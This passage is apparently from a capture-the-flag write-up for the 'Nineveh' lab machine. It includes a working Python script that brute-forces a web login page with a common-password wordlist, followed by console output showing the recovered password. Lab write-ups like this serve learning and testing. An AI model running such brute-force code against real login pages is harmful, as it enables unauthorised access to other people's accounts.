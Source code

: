 
Exploring the source code I saw a possible username.

![](/assets/images/ninevehv02/screenshot-3.png)

I developed a python script to brute force the login page.

```python
#!/usr/bin/env python3

import requests

url = "http://nineveh.htb"

def loginbf(pwd):
    data = {
            'username':'admin',
            'password':pwd
        }

    r = requests.post(f"{url}/department/login.php", data=data)
    return r.text

wordlist = open("/usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt").read().split("\n")

for wd in wordlist:
    if "Invalid" in loginbf(wd):
        print(f"[-] Password => {wd}")
    else:
        print(f"[+] Password => {wd} found")
        break
```

I ran the script and a few minutes later the password was found.

```console
root@kali:~/scripts# python3 bruteforce.py
...
[+] Password => 1q2w3e4r5t found
```

Then I logged in with the credentials found.

![](/assets/images/ninevehv02/screenshot-4.png)
